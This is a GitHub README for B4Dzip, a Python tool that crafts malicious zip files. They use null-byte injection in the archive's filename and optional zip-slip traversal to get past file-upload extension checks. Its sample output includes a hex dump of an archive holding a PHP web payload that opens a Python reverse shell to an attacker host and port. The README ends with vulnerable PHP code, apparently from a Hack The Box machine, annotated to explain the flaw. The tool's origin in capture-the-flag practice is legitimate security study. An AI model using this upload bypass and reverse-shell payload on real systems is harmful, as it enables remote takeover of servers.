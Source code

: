 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection.
A vulnerable PHP example is explained at the end of this doc.

<br><br>
More information about ZIP file format can be found [here](https://en.wikipedia.org/wiki/ZIP_(file_format)).


<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      236  2023-08-30 22:43   cc7f82eef39c4d12.php
---------                     -------
      236                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 27 58  |PK........i..W'X|
00000010  57 17 ec 00 00 00 ec 00  00 00 14 00 00 00 63 63  |W.............cc|
00000020  37 66 38 32 65 65 66 33  39 63 34 64 31 32 2e 70  |7f82eef39c4d12.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 22  |hp<?php system("|
00000040  65 78 70 6f 72 74 20 52  48 4f 53 54 3d 27 3c 72  |export RHOST='<r|
00000050  68 6f 73 74 3e 27 3b 65  78 70 6f 72 74 20 52 50  |host>';export RP|
00000060  4f 52 54 3d 3c 72 70 6f  72 74 3e 3b 70 79 74 68  |ORT=<rport>;pyth|
00000070  6f 6e 33 20 2d 63 20 5c  22 69 6d 70 6f 72 74 20  |on3 -c \"import |
00000080  73 6f 63 6b 65 74 2c 6f  73 2c 70 74 79 3b 73 3d  |socket,os,pty;s=|
00000090  73 6f 63 6b 65 74 2e 73  6f 63 6b 65 74 28 29 3b  |socket.socket();|
000000a0  73 2e 63 6f 6e 6e 65 63  74 28 28 6f 73 2e 67 65  |s.connect((os.ge|
000000b0  74 65 6e 76 28 27 52 48  4f 53 54 27 29 2c 69 6e  |tenv('RHOST'),in|
000000c0  74 28 6f 73 2e 67 65 74  65 6e 76 28 27 52 50 4f  |t(os.getenv('RPO|
000000d0  52 54 27 29 29 29 29 3b  5b 6f 73 2e 64 75 70 32  |RT'))));[os.dup2|
000000e0  28 73 2e 66 69 6c 65 6e  6f 28 29 2c 66 64 29 20  |(s.fileno(),fd) |
000000f0  66 6f 72 20 66 64 20 69  6e 20 28 30 2c 31 2c 32  |for fd in (0,1,2|
00000100  29 5d 3b 70 74 79 2e 73  70 61 77 6e 28 27 2f 62  |)];pty.spawn('/b|
00000110  69 6e 2f 73 68 27 29 5c  22 22 29 3b 3f 3e 50 4b  |in/sh')\"");?>PK|
00000120  01 02 1e 03 0a 00 00 00  00 00 69 b5 1e 57 27 58  |..........i..W'X|
00000130  57 17 ec 00 00 00 ec 00  00 00 19 00 00 00 00 00  |W...............|
00000140  00 00 00 00 00 00 a4 81  00 00 00 00 63 63 37 66  |............cc7f|
00000150  38 32 65 65 66 33 39 63  34 64 31 32 2e 70 68 70  |82eef39c4d12.php|
00000160  00 2e 70 64 66 50 4b 05  06 00 00 00 00 01 00 01  |..pdfPK.........|
00000170  00 47 00 00 00 1e 01 00  00 00 00                 |.G.........|
0000017b
```

## Vulnerable code example

The following code has been extracted from `HTB - Zipping` and is a good example about how the vulnerability works. Also, it is the main reason why I did this script.

```php
<?php
    ...
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
        echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
        /* 
            HERE: Checking the Wiki we find that:

            "If the end of central directory record indicates a non-empty
            archive (`cdh_size` and `lfh_size` in `badzip.py`), the name
            of each file or directory within the archive should be specified
            in a central directory entry (`cdh_fname` in `badzip.py`), along
            with other metadata about the entry, and an offset into the ZIP file
            pointing to the actual entry data.

            ...

            "This allows a file listing of the archive to be performed relatively
            quickly, as the entire archive does not have to be read to see
            the list of files."

            TL;DR: $zip->getNameIndex(0) is reading the file name from Central Directory Header :)

            See: https://www.php.net/manual/es/ziparchive.getnameindex.php#refsect1-ziparchive.getnameindex-description
        */
        $fileName = $zip->getNameIndex(0);

        /* 
            HERE: PATHINFO_EXTENSION returns only the last extension,
            so 'example.php\x00.pdf" will be read as .pdf == "pdf"

            See: https://www.php.net/manual/es/function.pathinfo.php#refsect1-function.pathinfo-returnvalues
        */
        if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
          mkdir($uploadDir);
          echo exec('7z e ' . $zipFile . ' -o' . $uploadDir . '>/dev/null');
          echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="' . $uploadDir . $fileName . '">' . $uploadDir . $fileName . '</a>' . '</p>';
        } else {
          echo "<p>The unzipped file must have  a .pdf extension.</p>";
        }
      }
    } else {
      echo "Error uploading file.";
    }
    ...
?>
```

## Meta

Diego Muñoz – [LinkedIn](linkedin.com/in/diegomuñozm)

Distributed under the MIT License. Go to ``LICENSE`` for more information.

[See license](https://github.com/0xCronos/B4Dzip/blob/master/LICENSE)

